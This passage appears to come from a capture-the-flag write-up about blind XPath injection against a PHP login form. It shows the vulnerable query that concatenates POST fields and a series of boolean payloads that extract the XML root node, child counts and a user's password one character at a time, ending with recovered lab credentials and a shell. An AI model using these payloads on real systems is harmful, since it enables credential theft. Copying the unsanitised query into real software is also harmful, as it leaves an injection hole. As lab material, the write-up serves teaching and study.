 ### Possible implementation in the server-side

    $q = "nodes/node[Username='".$_POST['username']."'and passsword='".$_POST['Password']."']";

### Exploitation

    Now we have the username so the query becomes
    $q = nodes/node[Username='bryan' and password='<payload>']

    if payload = ' or <some-condition> or '2'='1

    On setting payload
    $q = nodes/node[Username='bryan' and Password='' or <some_condition> or '2'='1']

    Since '2' =1 is always false that and Password='' is also false so, the **output depends upon the condition of the some_condition**. The conditions could be 
    *** string-length of node-name : string-length()
    * count of child nodes in the parent node : count()
    * substrings of a string using : substring()**

In this case, if the condition is true, it outputs all the user data and if false, returns invalid credentials.

Extracting Root Node

    Username=bryan&Password=' or string-length(name(/*))=**var** or '2'='1
    #on iterating var we get 9
    Username=bryan&Password=' or substring(name(/*),**v**,1)='**var'** or '2'='1
    #iterating v from 1-9 and var through all ascii printable characters we get **Employees** as root node

Extracting number of child nodes

    Username=bryan&Password=' or count(/Employees/*)=**var** or '2'='1
    #on iterating we get 4 (number of entries we saw above)

Using the above method, we can extract other subnodes and password of the user Bryan

Extracting Length

    Username=bryan&Password=' or string-length(//Employee[position()=3]/Password)=**var** or '2'='1'

    Here: I directly used the node "Employee" and verified that position 3 was for user bryan by extracting //Employee[position()=3]/Username. Using the same method, we can extract the password as well and found the password to be

Credentials : bryan: ireallyl0vebubblegum!!!

Used this credentials to login as user bryan and got the shell

![](https://cdn-images-1.medium.com/max/2000/1*A38a2Sr97mNjhmX7pZCnJQ.png)

TODO file

![](https://cdn-images-1.medium.com/max/2000/1*WH_ll-xAKDZrILUWKsG-Lw.png)

The intranet part was clear as we had seen the same configuration above.
